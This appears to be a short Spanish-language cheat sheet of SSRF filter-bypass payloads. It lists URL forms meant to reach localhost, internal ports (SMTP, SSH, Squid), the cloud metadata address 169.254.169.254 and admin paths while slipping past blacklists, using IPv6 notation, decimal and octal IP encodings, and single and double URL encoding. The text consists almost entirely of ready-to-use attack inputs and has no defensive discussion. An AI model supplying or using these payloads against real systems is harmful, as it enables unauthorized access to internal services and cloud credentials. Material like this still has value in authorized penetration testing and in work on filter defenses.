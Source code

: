```bash
https://127.0.0.1/
https://localhost/
```

Bypass localhost with [::]

```bash
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid


http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
```

Bypass using a decimal IP location

```bash
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

Uso de IPv6

```bash
http://[0:0:0:0:0:ffff:127.0.0.1]
```

A veces tu puedes acceder a iertas rutas de la pagina restringidas como /admin, esto tambien en APIRestful:

```bash
http://127.0.0.1/admin
http://127.0.0.1/user/add


# URL encoding
http://127.0.0.1/%61dmin
# Doble URL encoding
http://127.0.0.1/%2561dmin
```

bypass blacklist IP:

```bash
http://127.1/
```

### **Todos los filtros vistos en LFI son validos.**

